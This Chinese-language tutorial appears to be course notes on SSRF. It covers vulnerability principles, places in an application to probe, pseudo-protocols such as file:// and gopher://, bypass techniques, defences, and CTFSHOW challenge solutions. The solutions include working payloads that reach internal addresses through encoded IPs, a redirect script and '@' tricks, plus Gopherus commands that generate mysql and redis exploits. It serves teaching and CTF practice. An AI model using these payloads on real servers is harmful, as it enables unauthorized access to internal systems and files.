




# WEB攻防-SSRF服务端请求&Gopher伪协议&无回显利用&黑白盒挖掘&业务功能点

1、SSRF漏洞原理

SSRF(Server-Side Request Forgery:服务器端请求伪造) 

一种由攻击者构造形成由服务端发起请求的一个安全漏洞;

一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。

（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。

 

2、SSRF漏洞挖掘

黑盒探针：

-业务功能点

1.社交分享功能：获取超链接的标题等内容进行显示

2.转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览

3.在线翻译：给网址翻译对应网页的内容

4.图片加载/下载：例如富文本编辑器中的点击下载图片到本地；通过URL地址加载或下载图片

5.图片/文章收藏功能：主要其会取URL地址中title以及文本的内容作为显示以求一个好的用具体验

6.云服务厂商：它会远程执行一些命令来判断网站是否存活等，所以如果可以捕获相应的信息，就可以进行ssrf测试

7.网站采集，网站抓取的地方：一些网站会针对你输入的url进行一些信息采集工作

8.数据库内置功能：数据库的比如mongodb的copyDatabase函数

9.邮件系统：比如接收邮件服务器地址

10.编码处理, 属性信息处理，文件处理：比如ffpmg，ImageMagick，docx，pdf，xml处理器等

11.未公开的api实现以及其他扩展调用URL的功能：可以利用google 语法加上这些关键字去寻找SSRF漏洞

 

-URL关键参数

share

wap

url

link

src

source

target

u

display

sourceURl

imageURL

domain

 

白盒分析：见代码审计（文件读取，加载，数据操作类的函数）

 

3、SSRF伪协议利用

http://  Web常见访问，如http://127.0.0.1

file:/// 从文件系统中获取文件内容，如，file:///etc/passwd

dict:// 字典服务器协议，访问字典资源，如，dict:///ip:6739/info：

sftp:// SSH文件传输协议或安全文件传输协议

ldap:// 轻量级目录访问协议

tftp:// 简单文件传输协议

 

gopher:// 分布式文档传递服务，可使用gopherus生成payload

由于有部分协议http这类不支持，可以gopher来进行通讯（mysql，redis等）

应用：漏洞利用 或 信息收集 通讯相关服务的时候 工具：Gopherus

 

4、SSRF绕过方式

-限制为http://www.xxx.com 域名

采用http基本身份认证的方式绕过，即@

http://www.xxx.com@www.xxyy.com

 

-限制请求IP不为内网地址

当不允许ip为内网地址时：

（1）采取短网址绕过

（2）采取域名解析

（3）采取进制转换

（4）采取3XX重定向

 

5、SSRF漏洞防御

1,过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。

2,统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。

3,限制请求的端口为http常用的端口，比如，80,443,8080,8090。

4,黑名单内网ip。避免应用被用来获取获取内网数据，攻击内网。

5,禁用不需要的协议。仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp:// 等引起的问题。

 

 

\#CTFSHOW SSRF 白盒

CTF 绕过

1、无过滤直接获取

url=http://127.0.0.1/flag.php

 

2-3、IP地址进制绕过

十六进制

 url=http://0x7F.0.0.1/flag.php

 

八进制

 url=http://0177.0.0.1/flag.php

 

10 进制整数格式

 url=http://2130706433/flag.php

 

16 进制整数格式，还是上面那个网站转换记得前缀0x

 url=http://0x7F000001/flag.php

 

还有一种特殊的省略模式

 127.0.0.1写成127.1

 

用CIDR绕过localhost

 url=http://127.127.127.127/flag.php

 

还有很多方式

 url=http://0/flag.php

 url=http://0.0.0.0/flag.php

 

 

4、域名解析IP绕过

test.xiaodi8.com -> 127.0.0.1

url=http://test.xiaodi8.com/flag.php

 

5、长度限制IP绕过

url=http://127.1/flag.php

 

6、长度限制IP绕过

url=http://0/flag.php

 

7、利用重定向解析绕过

<?php

header("Location:http://127.0.0.1/flag.php"); 

url=http://47.94.236.117/xx.php

 

8、匹配且不影响写法解析

url=http://ctf.@127.0.0.1/flag.php?show

 

9-10、利用gopher协议打服务

https://github.com/tarunkant/Gopherus

d:Python2.7\python.exe gopherus.py --exploit mysql

d:Python2.7\python.exe gopherus.py --exploit redis